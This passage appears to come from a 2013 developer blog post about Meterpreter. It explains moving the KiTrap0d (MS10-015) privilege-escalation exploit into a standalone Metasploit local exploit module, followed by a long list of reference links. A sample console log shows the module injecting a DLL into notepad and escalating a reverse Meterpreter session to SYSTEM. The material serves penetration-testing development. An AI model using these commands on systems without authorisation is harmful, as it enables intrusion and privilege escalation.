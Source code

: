 Unfortunately, on later versions of Windows, the first few methods of elevation don't have the hit-rate they have on earlier versions. As a result, the `getsystem` call manages to try the KiTrap0d exploit quite a bit more, and this sometimes resulted in either broken sessions. It had also been known to [blue-screen][] boxes too, which isn't a great look at all, and it's frustrating for the testers.

After discussing it with the team, it was decided that it should not be included as part of `getsystem` command, but instead be moved into a local exploit that can be invoked by the user if and when they want to.

Both [Meterpreter][kitrap0d_meterpreter_pr] and [Metasploit][kitrap0d_metasploit_pr] needed to be updated to accommodate this, but the result is really nice. Here's a sample run of the new exploit:

``` plain KiTrap0d Exploit in Action
msf exploit(handler) > exploit

[*] Started reverse handler on XX.XX.XX.40:8000 
[*] Starting the payload handler...
[*] Sending stage (785920 bytes) to XX.XX.XX.43
[*] Meterpreter session 1 opened (XX.XX.XX.40:8000 -> XX.XX.XX.43:49234) at 2013-11-27 19:55:43 +1000

meterpreter > getuid
Server username: WIN-P73NLAJOYFH\OJ
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > set session 1
session => 1
msf exploit(ms10_015_kitrap0d) > exploit
[*] Reloading module...

[*] Started reverse handler on XX.XX.XX.3:4444
[*] Launching notepad to host the exploit...
[+] Process 1288 launched.
[*] Reflectively injecting the exploit DLL into 1288...
[*] Exploit injected. Injecting payload into 1288...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (768512 bytes) to XX.XX.XX.3
[*] Meterpreter session 3 opened (XX.XX.XX.3:4444 -> XX.XX.XX.3:51569) at 2013-11-13 23:53:36 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

This was the first time I'd ever worked with local exploits, and I won't deny that finishing it and seeing it all working made me feel like this:

![Yeah!](/uploads/2013/12/f-yeah.gif)

(Thanks to my good friend [Justin][justinsteven] for showing me this image.)

This exploit doesn't mess with your existing session at all, so that should continue to function as before. This exploit also supports the use of different payload types, just like every other exploit, making it a little more flexible than when it was part of `getsystem`. If you're interested in seeing how the module works, take a look at [the source on Github][kitrap0d_module].


  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Rapid7]: http://www.rapid7.com/
  [vs_express]: http://www.visualstudio.com/downloads/download-visual-studio-vs#d-express-windows-desktop
  [vs_2012_pr]: https://github.com/rapid7/meterpreter/pull/16
  [vs_2013_pr]: https://github.com/rapid7/meterpreter/pull/41
  [ext_server_sniffer]: https://github.com/rapid7/meterpreter/tree/master/workspace/ext_server_sniffer
  [Jenkins]: http://jenkins-ci.org/
  [clean_builds_pr]: https://github.com/rapid7/meterpreter/pull/49
  [clean_builds_image]: https://github-camo.global.ssl.fastly.net/55f4e2cf4419f90a802acb0f3ac3b4d87476ff02/687474703a2f2f692e696d6775722e636f6d2f6b5852523176482e706e67
  [pointer_truncation]: http://buffered.io/posts/64bit-pointer-truncation-in-meterpreter/
  [MS08-067]: http://technet.microsoft.com/en-us/security/bulletin/ms08-067
  [pip_adapter_fix]: https://github.com/rapid7/meterpreter/pull/21
  [Juan]: https://twitter.com/_juan_vazquez_
  [Meatballs]: https://twitter.com/Meatballs__
  [sinn3r]: https://twitter.com/_sinn3r
  [wvu]: https://twitter.com/wvuuuuuuuuuuuuu
  [Egypt]: https://twitter.com/egyp7
  [todb]: https://twitter.com/todb
  [TheLightCosine]: https://twitter.com/TheLightCosine
  [HD Moore]: https://twitter.com/hdmoore
  [multi_call_railgun_metasploit]: https://github.com/rapid7/metasploit-framework/pull/2458
  [multi_call_railgun_meterpreter]: https://github.com/rapid7/meterpreter/pull/28
  [strcpy]: http://www.cplusplus.com/reference/cstring/strcpy/
  [Honey Badger]: http://en.wikipedia.org/wiki/Honey_Badger_Don't_Care
  [hack_protection]: https://github.com/rapid7/meterpreter/pull/32
  [webcam_module]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/webcam/webcam.rb
  [COM]: http://www.microsoft.com/com/default.mspx
  [webcam_fix_pr]: https://github.com/rapid7/meterpreter/pull/44
  [msfpayload]: http://www.offensive-security.com/metasploit-unleashed/Msfpayload
  [Railgun]: http://www.room362.com/blog/2010/7/7/intro-to-railgun-win-api-for-meterpreter.html
  [kitrap0d_first]: http://carnal0wnage.attackresearch.com/2010/01/kitrap0d-now-in-metasploit.html
  [kitrap0d_meterpreter_pr]: https://github.com/rapid7/meterpreter/pull/51
  [kitrap0d_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2633
  [kitrap0d_module]: https://github.com/OJ/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_015_kitrap0d.rb
  [Reflective DLL Injection]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf
  [git submodule]: http://git-scm.com/docs/git-submodule
  [Stephen Fewer]: https://twitter.com/stephenfewer
  [kitrap0d_full_disclosure]: http://seclists.org/fulldisclosure/2010/Jan/341
  [ppr_flatten_rec_pr]: https://github.com/rapid7/metasploit-framework/pull/2701
  [blue-screen]: http://en.wikipedia.org/wiki/Blue_Screen_of_Death
  [Incognito]: http://www.offensive-security.com/metasploit-unleashed/Fun_With_Incognito
  [Incognito_pr]: https://github.com/rapid7/meterpreter/pull/42
  [Incognito v2]: https://labs.mwrinfosecurity.com/blog/2012/07/18/incognito-v2-0-released/
  [stdapi_fs]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/fs/file.rb
  [getenv_win_met]: https://github.com/rapid7/meterpreter/blob/master/source/extensions/stdapi/server/sys/config/config.c#L43
  [getenv_py_met]: https://github.com/rapid7/metasploit-framework/blob/master/data/meterpreter/ext_server_stdapi.py#L386
  [getenv_php_met]: https://github.com/rapid7/metasploit-framework/blob/master/data/meterpreter/ext_server_stdapi.php#L586
  [getenv_msf]: https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/stdapi/sys/config.rb#L40
  [mubix]: https://twitter.com/mubix
  [getproxy_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2592
  [command_dispatcher_terminate]: https://github.com/rapid7/meterpreter/blob/master/source/server/server_setup.c#L358
  [MFC]: http://en.wikipedia.org/wiki/Microsoft_Foundation_Class_Library
  [base_macros]: https://github.com/rapid7/meterpreter/blob/master/source/common/base.h#L25
  [command_dispatch_pr]: https://github.com/rapid7/meterpreter/pull/34
  [justinsteven]: https://twitter.com/justinsteven
  [radac]: https://twitter.com/radac_
  [sw1tch]: https://twitter.com/sw1tch1ng
  [Novex]: https://twitter.com/sebbity
  [Ash]: https://twitter.com/ashd_au
  [Wade]: https://twitter.com/wadealcorn
  [email]: /contact
  [TheColonial]: https://twitter.com/TheColonial
  [Zeknox]: https://twitter.com/zeknox
  [SmilingRaccoon]: https://twitter.com/smilingraccoon
  [metasploit_extapi_pr]: https://github.com/rapid7/metasploit-framework/pull/2602
  [meterpreter_extapi_pr]: https://github.com/rapid7/meterpreter/pull/45
  [DACL]: http://msdn.microsoft.com/en-us/library/windows/desktop/aa446597(v=vs.85).aspx
  [GDIPlus]: http://msdn.microsoft.com/en-us/library/windows/desktop/ms533798(v=vs.85).aspx
  [adsi_metasploit_pr]: https://github.com/rapid7/metasploit-framework/pull/2736
  [adsi_meterpreter_pr]: https://github.com/rapid7/meterpreter/pull/60
  [Doxygen]: http://www.doxygen.org/
  [meterpreter_docs]: https://ci.metasploit.com/job/MeterpreterWinDocs/lastSuccessfulBuild/artifact/docs/html/index.html
  [meterpreter_ci]: https://ci.metasploit.com/job/MeterpreterWin/
  [BPX]: https://ruxconbreakpoint.com/
  [Rux]: http://ruxcon.org.au/
  [Pipes]: https://twitter.com/pipes
  [Kernelsmith]: https://twitter.com/kernelsmith
  [posix_signalling]: https://github.com/rapid7/meterpreter/pull/38/files#diff-9855cd942b30d41aeb1ac277daa18033R199
  [channel_refactor_pr]: https://github.com/rapid7/meterpreter/pull/38
  [indigo_montoya]: https://www.youtube.com/watch?v=G2y8Sx4B2Sk
  [Matthew Risck]: https://twitter.com/Mateusz_Jozef
  [Brandon]: https://twitter.com/blt04
  [sec_street_tldr]: https://community.rapid7.com/community/metasploit/blog/2013/12/27/meterpreter-reloaded
  [metasploit_post_extapi]: https://community.rapid7.com/community/metasploit/blog/2013/12/12/weekly-metasploit-update
  [Event]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682396%28v=vs.85%29.aspx